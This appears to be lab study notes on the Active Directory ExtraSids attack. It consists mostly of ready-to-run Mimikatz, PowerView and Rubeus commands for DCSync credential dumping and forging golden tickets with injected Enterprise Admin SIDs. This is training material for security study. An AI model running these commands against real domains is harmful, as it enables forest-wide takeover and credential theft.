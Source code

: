 ## SID History Primer

sidHistory attribute is used when migrating a user's account from one domain to another.
Using Mimikatz, an attacker can perform SID history injection and add an administrator account or Domain Admin account to the SID History attribute of an account they control.

## ExtraSids Attack - Mimikatz
- Allows for the compromise of a parent domain once the child domain has been compromised.
- Leverage SIDHistory to grant an account (or non-existent account) Enterprise Admin rights by modifying this attribute to contain the SID for the Enterprise Admins group, which will give us full access to the parent domain without actually being part of the group.

After compromising a child domain, we need:
- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.

**Obtaining the KRBTGT Account's NT Hash using Mimikatz
```
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```

**Using Get-DomainSID (PowerView)
```
Get-DomainSID
```

**Obtaining Enterprise Admins Group's SID using Get-DomainGroup
```
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
```

**Creating a Golden Ticket with Mimikatz
```
mimikatz.exe
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

**Confirming a Kerberos Ticket in Memory
```
klist
```

**Listing the Entire C: Drive of the Domain Controller
```
ls \\academy-ea-dc01.inlanefreight.local\c$
```


## ExtraSids Attack - Rubeus

**Creating a Golden Ticket with Rubeus
```
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
klist
```

**Performing a DCSync Attack
```
.\mimikatz.exe
lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

Target domain is not the same as the user's domain:
```
lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```


